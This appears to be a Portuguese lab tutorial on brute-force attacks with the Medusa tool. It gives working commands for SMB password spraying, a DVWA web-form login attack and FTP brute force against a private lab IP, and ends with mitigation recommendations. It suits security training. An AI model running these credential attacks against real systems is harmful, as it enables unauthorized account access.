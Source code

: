 ### Ataques com Medusa

**Medusa** é uma ferramenta de força bruta rápida, paralela e modular.

**Flags Comuns:**
- `-h [host]`: Especifica o IP do alvo.
- `-U [arquivo]`: Aponta para o arquivo com a lista de usuários.
- `-P [arquivo]`: Aponta para o arquivo com a lista de senhas.
- `-M [módulo]`: Define o serviço a ser atacado (ex: `smbnt`, `http`, `ftp`).
- `-t [threads]`: Número de tentativas paralelas (threads).
- `-T [total]`: Número total de alvos a serem testados em paralelo.

**1. Password Spraying em SMB**
```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```
- **Descrição:** Tenta autenticar em um serviço SMB (`-M smbnt`) usando uma lista de usuários (`-U`) contra uma lista pequena de senhas (`-P`). É uma técnica para evitar bloqueios de conta.

**2. Força Bruta em Formulário Web (DVWA)**
```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```
- **Descrição:** Realiza um ataque de força bruta em uma página de login web.
  - `-m PAGE`: Define a página de login.
  - `-m FORM`: Define a estrutura do formulário, onde `^USER^` e `^PASS^` são substituídos pelos valores das wordlists.
  - `-m 'FAIL=...'`: Especifica o texto que indica uma tentativa de login falha.

**3. Força Bruta em FTP**
```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```
- **Descrição:** Tenta descobrir credenciais de acesso para o serviço FTP (`-M ftp`) no alvo.

### Validação de Acesso

| Comando | Descrição |
| :--- | :--- |
| `ftp 192.168.56.102` | Após encontrar uma credencial válida com o Medusa, este comando inicia um cliente FTP para se conectar ao alvo e validar o acesso. |

---

## 🛡️ Recomendações de Mitigação

1.  **Políticas de Senhas Fortes:** Exigir senhas complexas, com comprimento mínimo e variedade de caracteres.
2.  **Bloqueio de Contas:** Implementar um mecanismo que bloqueie contas temporariamente após um número definido de tentativas de login falhas.
3.  **Autenticação Multifator (MFA):** Adicionar uma segunda camada de verificação para dificultar o acesso não autorizado, mesmo que a senha seja descoberta.
4.  **Monitoramento e Alertas:** Manter logs de tentativas de acesso e configurar alertas para atividades suspeitas, como um grande volume de falhas de login.
5.  **CAPTCHA:** Utilizar em formulários web para diferenciar usuários humanos de bots automatizados.
